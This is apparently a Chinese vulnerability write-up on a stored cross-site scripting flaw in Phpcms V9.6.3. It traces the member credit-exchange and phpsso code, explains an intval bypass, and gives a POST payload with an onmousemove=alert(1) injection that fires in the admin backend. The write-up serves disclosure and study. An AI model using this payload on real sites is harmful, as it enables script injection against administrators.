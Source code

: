 Phpcms V9.6.3 储存型xss
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.3

三、复现过程
------------

### 漏洞分析

问题出在会员的积分兑换功能，文件：

    /phpcms/modules/member/index.php
     public function change_credit() {
      $memberinfo = $this->memberinfo;
      //加载用户模块配置
      $member_setting = getcache('member_setting');
      $this->_init_phpsso();
      $setting = $this->client->ps_getcreditlist();
      $outcredit = unserialize($setting);
      $setting = $this->client->ps_getapplist();
      $applist = unserialize($setting);

      if(isset($_POST['dosubmit'])) {
       //本系统积分兑换数
       $fromvalue = intval($_POST['fromvalue']);
       //本系统积分类型
       $from = $_POST['from'];
       $toappid_to = explode('_', $_POST['to']);      //这个是问题的参数
       //目标系统appid
       $toappid = $toappid_to[0];
       //目标系统积分类型
       $to = $toappid_to[1];
       if($from == 1) {
        if($memberinfo['point'] < $fromvalue) {
         showmessage(L('need_more_point'), HTTP_REFERER);
        }
       } elseif($from == 2) {
        if($memberinfo['amount'] < $fromvalue) {
         showmessage(L('need_more_amount'), HTTP_REFERER);
        }
       } else {
        showmessage(L('credit_setting_error'), HTTP_REFERER);
       }

       $status = $this->client->ps_changecredit($memberinfo['phpssouid'], $from, $toappid, $to, $fromvalue);

这里有个问题，由于`if($memberinfo['point'] < $fromvalue)`所以，`$fromvalue`不能大于会员的点数，但是没充值的状态下，点数是为0的，但是又由于上面有`intval($fromvalue)`，所以我们可以`$fromvalue=0.9`经过`intval`后就成了`0`，也就绕过了上面的逻辑。跟进`ps_changecredit`函数：

    public function ps_changecredit($uid, $from, $toappid, $to, $credit) {
      return $this->_ps_send('changecredit', array('uid'=>$uid, 'from'=>$from, 'toappid'=>$toappid, 'to'=>$to, 'credit'=>$credit));
     }

继续跟进`_ps_send`函数：

    private function _ps_send($action, $data = null) {
       return $this->_ps_post($this->ps_api_url."/index.php?m=phpsso&c=index&a=".$action, 500000, $this->auth_data($data));
     }

最后是经过`auth_data`函数处理和加密，`auth_data`调用`sys_auth`加密函数进行加密:

    public function auth_data($data) {
      $s = $sep = '';
      foreach($data as $k => $v) {
       if(is_array($v)) {
        $s2 = $sep2 = '';
        foreach($v as $k2 => $v2) {
          $s2 .= "$sep2{$k}[$k2]=".$this->_ps_stripslashes($v2);
         $sep2 = '&';
        }
        $s .= $sep.$s2;
       } else {
        $s .= "$sep$k=".$this->_ps_stripslashes($v);
       }
       $sep = '&';
      }

      $auth_s = 'v='.$this->ps_vsersion.'&appid='.APPID.'&data='.urlencode($this->sys_auth($s));
      return $auth_s;
     }

`_ps_post`函数主要就是让服务器访问自己的网站上的一个地址也就是访问了`phpsso`的`changecredit`函数（方法）。我们先来看看`phpsso`：

    class phpsso {

     public $db, $settings, $applist, $appid, $data;
     /**
      * 构造函数
      */
     public function __construct() {
      $this->db = pc_base::load_model('member_model');
      pc_base::load_app_func('global');

      /*获取系统配置*/
      $this->settings = getcache('settings', 'admin');
      $this->applist = getcache('applist', 'admin');

      if(isset($_GET) && is_array($_GET) && count($_GET) > 0) {
       foreach($_GET as $k=>$v) {
        if(!in_array($k, array('m','c','a'))) {
         $_POST[$k] = $v;
        }
       }
      }

      if(isset($_POST['appid'])) {
       $this->appid = intval($_POST['appid']);
      } else {
       exit('0');
      }

      if(isset($_POST['data'])) {
       parse_str(sys_auth($_POST['data'], 'DECODE', $this->applist[$this->appid]['authkey']), $this->data);


    parse_str(sys_auth($_POST['data'], 'DECODE', $this->applist[$this->appid]['authkey']), $this->data);可以看到是通过sys_auth函数解密（加密跟解密的函数是一样的）。
    最后来看看changecredit：
     public function changecredit() {
      $this->uid = isset($this->data['uid']) ? $this->data['uid'] : exit('0');
      $this->toappid = isset($this->data['toappid']) ? $this->data['toappid'] : exit('0');
      $this->from = isset($this->data['from']) ? $this->data['from'] : exit('0');
      $this->to = isset($this->data['to']) ? $this->data['to'] : exit('0');
      $this->credit = isset($this->data['credit']) ? $this->data['credit'] : exit('0');
      $this->appname = $this->applist[$this->appid]['name'];
      $outcredit = $this->getcredit(1);
      //目标系统积分增加数
      $this->credit = floor($this->credit * $outcredit[$this->from.'_'.$this->to]['torate'] / $outcredit[$this->from.'_'.$this->to]['fromrate']);

      /*插入消息队列*/
      $noticedata['appname'] = $this->appname;
      $noticedata['uid'] = $this->uid;
      $noticedata['toappid'] = $this->toappid;
      $noticedata['totypeid'] = $this->to;
      $noticedata['credit'] = $this->credit;
      messagequeue::add('change_credit', $noticedata);
      exit('1');
     }


    这里是进入数据库了：messagequeue::add('change_credit', $noticedata);
     public static function add($operation, $noticedata_send) {
      $db = self::get_db();
      $noticedata_send['action'] = $operation;
      $noticedata_send_string = array2string($noticedata_send);

      if ($noticeid = $db->insert(array('operation'=>$operation, 'noticedata'=>$noticedata_send_string, 'dateline'=>SYS_TIME), 1)) {
       self::notice($operation, $noticedata_send, $noticeid);
       return 1;
      } else {
       return 0;
      }
     }

调用insert写入数据。。这里就不跟了。由于系统开启了gpc（两次，初始化一次，phpsso一次），所以进去的数据是经过两次gpc的输出跟模板就不说了，反正没过滤直接出来

整理一下思路，先从积分兑换填写表单，然后将数据整理成数组经过`sys_auth`加密一次，然后服务器发送数据包给自己，收到数据包之后用`sys_auth`函数解密，然后调用`changecredit`方法，`inert`插入数据库，然后管理员在后台点击通信信息的时候触发xss!

### 漏洞复现

利用方法，先注册一个帐号，然后登录，然后访问:http://www.0-sec.org/index.php?m=member&c=index&a=change\_credit&post:

    dosubmit=1&fromvalue=0.6&from=1id=1`setset'&to=}" onmousemove=alert(1)>//

![1.png](./resource/PhpcmsV9.6.3储存型xss/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/1860
